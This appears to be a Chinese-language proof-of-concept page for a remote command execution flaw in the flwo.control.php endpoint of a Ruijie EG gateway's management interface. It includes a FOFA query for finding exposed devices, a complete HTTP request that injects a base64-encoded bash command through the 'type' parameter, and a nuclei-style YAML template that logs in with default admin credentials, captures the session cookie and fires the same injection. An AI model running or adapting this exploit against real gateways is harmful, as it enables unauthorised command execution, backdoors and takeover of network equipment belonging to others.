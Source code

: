 ## 锐捷网络flwo.control.php存在RCE漏洞

锐捷EG易网关存在flwo.control.php命令执行漏洞，攻击者可利用该漏洞执行任意命令，写入后门，获取服务器权限，进而控制整个web服务器。 前提需要登录获取cookie

## fofa

```
title="锐捷网络-EWEB网管系统"
```

## poc

```
POST /flow_control_pi/flwo.control.php?a=flowOpen HTTP/1.1
Host: localhost:4430
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Content-Length: 11
Accept: */*
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Cookie: user=21232f297a57a5a743894a0e4a801fc3; LOCAL_LANG_COOKIE=zh; UI_LOCAL_COOKIE=zh; sysmode=sys-mode%20gateway; supportMoreLan=no; RUIJIEID=h250c4c46emk9dv2mjmbk5rlc0; user=21232f297a57a5a743894a0e4a801fc3; isRedirect=true; authenType=local; accountType=write; showPatchDialog=true; module=macc; threeModule=seltab
Origin: https:// localhost:4430
Referer: https:// localhost:4430/rac_pi/surfilter_selservice.htm
Sec-Ch-Ua: " Not;A Brand";v="99", "Google Chrome";v="91", "Chromium";v="91"
Sec-Ch-Ua-Mobile: ?0
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
X-Forwarded-For: x
X-Requested-With: XMLHttpRequest
Accept-Encoding: gzip

type=%7Cbash+-c+%27echo+cm0gLXJmIC4uLzEyMzMyMXF3ZS50eHQgJiYgZWNobyBGMDhiYmZiMkJDOGNlZUQ2ID4gLi4vMTIzMzIxcXdlLnR4dCAyPiYx+%7C+base64+-d+%7C+bash+%26%26+exit+0%27
```

![image](https://github.com/wy876/POC/assets/139549762/a4710fcd-de46-4774-8c69-de8f5a74dcb2)

把管理员cookie填进去，然后写入文件

![c534bc92b717fb16aafc3f62f07e90b1](https://github.com/wy876/POC/assets/139549762/2c93d83a-6e44-4198-b973-271829bca4fa)

文件路径`http://127.0.0.1/123321qwe.txt`

## yaml

```
http:
  - raw:
      - |              
        POST /ddi/server/login.php HTTP/1.1
        Host: 
        Content-Type: application/x-www-form-urlencoded
        User-Agent: Mozilla/5.0 

        username=admin&password=admin?
      - |              
        POST /flow_control_pi/flwo.control.php?a=getFlowGroup HTTP/1.1
        Host: 
        Content-Type: application/x-www-form-urlencoded
        Cookie: RUIJIEID={{cookie}};user=admin;
        User-Agent: Mozilla/5.0 

        type=%7Cbash+-c+%27echo+cm0gLXJmIC4uLzEyMzMyMXF3ZS50eHQgJiYgZWNobyBGMDhiYmZiMkJDOGNlZUQ2ID4gLi4vMTIzMzIxcXdlLnR4dCAyPiYx+%7C+base64+-d+%7C+bash+%26%26+exit+0%27

      - |              
        GET /123321qwe.txt HTTP/1.1
        Host: 
        User-Agent: Mozilla/5.0      

    extractors:
      - type: regex
        name: cookie
        part: header
        group: 1
        internal: true
        regex:
          - "RUIJIEID=(.*); path=/"

    matchers-condition: and
    matchers:
      - type: dsl
        dsl:
          - 'status_code_3==200 && contains(body_3, "F08bbfb2BC8ceeD6") && contains(body_3, "text/plain")'
```
